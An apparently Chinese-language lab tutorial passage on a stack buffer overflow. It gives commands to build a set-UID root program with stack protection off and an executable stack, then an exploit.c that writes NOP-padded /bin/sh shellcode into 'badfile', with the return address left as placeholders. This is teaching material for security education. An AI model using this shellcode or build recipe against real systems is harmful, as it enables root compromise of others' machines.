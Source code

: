 通过代码可以知道，程序会读取一个名为“badfile”的文件，并将文件内容装入“buffer”。

编译该程序，并设置SET-UID。命令如下：

```
sudo su

gcc -m32 -g -z execstack -fno-stack-protector -o stack stack.c

chmod u+s stack

exit
```

GCC编译器有一种栈保护机制来阻止缓冲区溢出，所以我们在编译代码时需要用 –fno-stack-protector 关闭这种机制。

而 -z execstack 用于允许执行栈。

####3.5 攻击程序

我们的目的是攻击刚才的漏洞程序，并通过攻击获得root权限。

把以下代码保存为“exploit.c”文件，保存到 /tmp 目录下。代码如下：

```
/* exploit.c */
/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char shellcode[]=

"\x31\xc0"    //xorl %eax,%eax
"\x50"        //pushl %eax
"\x68""//sh"  //pushl $0x68732f2f
"\x68""/bin"  //pushl $0x6e69622f
"\x89\xe3"    //movl %esp,%ebx
"\x50"        //pushl %eax
"\x53"        //pushl %ebx
"\x89\xe1"    //movl %esp,%ecx
"\x99"        //cdq
"\xb0\x0b"    //movb $0x0b,%al
"\xcd\x80"    //int $0x80
;

void main(int argc, char **argv)
{
char buffer[517];
FILE *badfile;

/* Initialize buffer with 0x90 (NOP instruction) */
memset(&buffer, 0x90, 517);

/* You need to fill the buffer with appropriate contents here */
strcpy(buffer,"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x??\x??\x??\x??");
strcpy(buffer+100,shellcode);

/* Save the contents to the file "badfile" */
badfile = fopen("./badfile", "w");
fwrite(buffer, 517, 1, badfile);
fclose(badfile);
}
```
